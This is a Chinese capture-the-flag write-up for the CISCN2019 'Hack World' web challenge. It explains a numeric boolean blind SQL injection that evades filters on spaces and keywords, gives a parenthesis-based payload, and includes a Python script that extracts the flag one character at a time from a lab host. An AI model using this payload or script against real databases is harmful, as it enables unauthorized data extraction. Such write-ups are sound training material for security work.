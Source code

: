 ## [CISCN2019 华北赛区 Day2 Web1]Hack World（数字型bool盲注，（）绕过空格）

![](assets/202208242114225-1700744514804299.png)

数字型盲注, 过滤了空格 and or 这些

`=` + 括号绕过

```sql
id=1=if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)
```

因为 `-` 也被过滤了, 所以还是转成 ascii 方便一些

python 脚本

```python
import time
import requests

dicts='flag{bcde-1234567890}'

url = 'http://e22b868b-c929-4bad-8e3f-1362d21e37d3.node4.buuoj.cn:81/index.php'

flag = ''

for i in range(100):
    for s in dicts:
        time.sleep(1)
        data = {
            'id': f"1=if(ascii(substr((select(flag)from(flag)),{i},1))={ord(s)},1,0)"
        }
        #print('test',s)
        res = requests.post(url,data=data, timeout=30)
        if 'glzjin' in res.text:
            flag += s
            print(flag)
            break
```
